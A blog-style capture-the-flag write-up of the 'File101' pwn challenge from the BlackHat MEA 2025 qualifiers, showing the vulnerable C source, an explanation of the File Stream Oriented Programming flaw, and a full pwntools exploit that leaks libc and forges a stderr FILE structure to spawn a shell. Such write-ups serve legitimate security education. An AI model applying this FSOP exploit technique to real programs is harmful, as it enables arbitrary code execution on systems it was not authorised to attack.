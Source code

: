 ```yaml
---
title: BlackHat MEA Quals 2025 - File101
description: A medium pwn challenge writeup.
date: "2025-10-08"
---
```


![first](/blog-post-1.jpg)

## Let's get Cracking...

This blog has a pwn challenge writeup that I solved at BlackHat MEA 2025 Qualification round.

Following files were given to us a lead to solve the challenge.

```jsx
.
├── chall
├── compose.yml
├── Dockerfile
└── main.c
```

## main.c

```c
#include <stdio.h>

void main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("stdout:");
  scanf("%224s", (char*)stdout);
  puts("stderr:");
  scanf("%224s", (char*)stderr);
}
```

### Code Explanation

This program disables buffering for `stdin` and `stdout`, then dangerously uses `scanf("%224s", (char*)stdout)` and `scanf("%224s", (char*)stderr)` to write user input directly into the `FILE` structures of `stdout` and `stderr`. These structures hold critical control data (function pointers, flags, buffer pointers, etc.), so overwriting them corrupts the internal `libc` state. This creates a `FSOP` (File Stream Oriented Programming) vulnerability, where an attacker can craft fake FILE structures or overwrite function pointers inside `stdout/stderr` to gain arbitrary code execution (often leading to shellcode execution when the program later flushes or closes these streams).

### Exploit

```jsx
from pwn import *

libc = ELF("./libc.so.6")
elf = context.binary = ELF("./chall")
context.terminal = ["tmux", "splitw", "-h"]

def u64leak(x):
    return u64(x.ljust(8, b"\x00"))

def start():
    if args.REMOTE:
        return remote("<HOST>", <PORT>)
    else:
        return process(elf.path)

r = start()

r.recvuntil(b"stdout:\n")
r.sendline(p64(0xfbad1887) + p64(0) * 3 + b"\x48")

leak = r.recvuntil(b"stder")[-72:]
libc.address = u64leak(leak[:8]) - 0x204644
log.success(f"Libc base: {hex(libc.address)}")

stderr_addr = libc.address + 0x2044e0

fs  = p64(0x3b68733b40404040)
fs += p64(0) * 4 + p64(1) + p64(0) * 7
fs += p64(libc.sym.system) + p64(0) * 3
fs += p64(stderr_addr - 0x10) + p64(0)
fs += p64(stderr_addr) + p64(stderr_addr - 0x48)
fs += p64(0) * 6 + p64(libc.sym._IO_wfile_jumps)

r.sendline(fs)
r.interactive()
```

The exploit abuses the fact that scanf writes user input directly into the `FILE` structures of `stdout` and `stderr`. First, it forges a fake `_IO_FILE` object for stdout with carefully chosen flags (`0xfbad1887`) to trick `libc` into leaking a pointer from its internal structures. From this leak, the script computes the base address of `libc`. With `libc`’s base known, it constructs a fake `stderr` structure in memory, overwriting its function pointers so that when `libc` flushes or closes `stderr`, it ends up calling `system("/bin/sh")`. Finally, the payload is sent, and the exploit drops into an interactive shell. This is a textbook `File Stream Oriented Programming (FSOP)` attack.

## Taking Shell

![image](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*qx1P6dwD4T8SsHUHvN_LQQ.png)

I hope that you liked this blog and I’ll see you in the next one. Stay in the loop with my latest content – follow me on [Medium](https://medium.com/@iabdullah_215) for more!

## THANKS

## MUHAMMAD ABDULLAH
